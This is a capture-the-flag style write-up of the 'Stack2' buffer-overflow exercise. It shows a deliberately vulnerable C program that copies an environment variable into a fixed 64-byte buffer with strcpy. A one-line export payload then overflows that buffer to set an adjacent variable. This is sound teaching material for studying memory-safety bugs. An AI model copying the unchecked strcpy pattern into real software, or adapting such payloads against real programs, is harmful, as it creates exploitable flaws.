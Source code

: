 # Stack2

## Description
Stack2 looks at environment variables, and how they can be set.

## Source Code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```
## Solution
On looking the source code we can see that we need to run the program with environment variable as `GREENIE`. This can be done using export command and then we can execute a command just like previous challenge to change the value of modified. This can be done as 
```bash
export GREENIE=$(python -c "print(('1'*64)+'\x0a\x0d\x0a\x0d')")
./stack2
```

![screenshot](screenshot.jpg)